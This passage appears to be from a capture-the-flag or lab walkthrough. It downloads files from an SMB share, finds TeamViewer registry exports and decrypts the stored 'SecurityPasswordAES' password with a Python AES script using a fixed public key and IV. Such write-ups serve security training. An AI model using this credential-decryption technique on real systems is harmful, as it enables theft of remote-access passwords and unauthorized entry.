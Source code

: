 We can download all of these files to our machine.

```
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

We can first view the `README.all`:

```
$ cat README.all            
each of you has to install TeamViewer and then import your own registry key for automatic configuration.
Don't worry about the password, it's well encrypted!

Root!
```

TeamViewer credentials can actually be decrypted.&#x20;

{% embed url="https://whynotsecurity.com/blog/teamviewer/" %}

We can use parts of the script above to decrypt our files:

```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")
hex_str_cipher = "1afa05622365454bf8b43255ac75ac87a60b9ad7ecc3ca9c2f856496cb8881ce"			# output from the registry

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)
    
print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)
```

Each of the `.reg` files have this hex string within it:

```
"SecurityPasswordAES"=hex:b2,21,47,c7,58,c4,f3,9a,6d,bc,84,44,f2,45,58,c2,cf,\
  b5,44,a5,3b,94,74,a0,a2,d0,ea,21,b1,e1,3c,09
```
